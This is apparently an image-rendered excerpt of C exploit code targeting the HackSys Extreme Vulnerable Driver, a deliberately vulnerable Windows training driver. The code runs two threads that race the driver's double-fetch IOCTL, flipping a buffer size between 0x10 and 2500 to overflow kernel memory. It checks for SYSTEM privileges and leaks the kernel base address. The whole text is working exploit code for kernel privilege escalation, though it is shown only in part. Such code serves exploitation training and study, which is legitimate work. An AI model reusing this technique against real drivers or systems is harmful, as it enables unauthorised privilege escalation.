```c
#define IOCTL(Function) CTL_CODE (FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_DOUBLE_FETCH IOCTL(0x80D)

#define NUM_THREADS 1
#define BUFFER_SIZE 2500

BOOL IsSYSTEM(void) {
    char cUsername[256];
    DWORD nameLen = sizeof(cUsername);
    GetUserNameA(cUsername, &nameLen);
    return strcmp(cUsername, "SYSTEM") == 0;
}

DWORD WINAPI DeviceIoControlThread(LPVOID lpParameters) {

    PIRP_ARGS pIRPArgs = (PIRP_ARGS)lpParameters;

    while (1) {
        pIRPArgs->pDoubleFetch.Size = 0x10;

        DWORD dwBytesReturned = 0;
        DeviceIoControl(
            pIRPArgs->hHEVD,
            HEVD_IOCTL_DOUBLE_FETCH,
            &pIRPArgs->pDoubleFetch,
            sizeof(DOUBLE_FETCH),
            NULL,
            0x00,
            &dwBytesReturned,
            NULL);

        if (IsSYSTEM()) {
            printf("Overflow triggered\n");
            printf("DeviceIoControlThread thread exiting\n");
            SetEvent(pIRPArgs->hEvent);
            return 0;
        }

        Sleep(1);
    }

    return 0;
}

DWORD WINAPI SizeChaingingThread(LPVOID lpParameters) {

    PIRP_ARGS pIRPArgs = (PIRP_ARGS)lpParameters;

    while (WaitForSingleObject(pIRPArgs->hEvent, 0) != WAIT_OBJECT_0) {
        pIRPArgs->pDoubleFetch.Size = BUFFER_SIZE;
        Sleep(1);
    }

    printf("SizeChaingingThread exiting\n");
    return 0;
}

u64 GetKernelBaseAddress() {
    LPVOID drivers[1024] = { 0 };
    DWORD cbNeeded;
    EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded);
    return (u64)drivers[0];
}
```
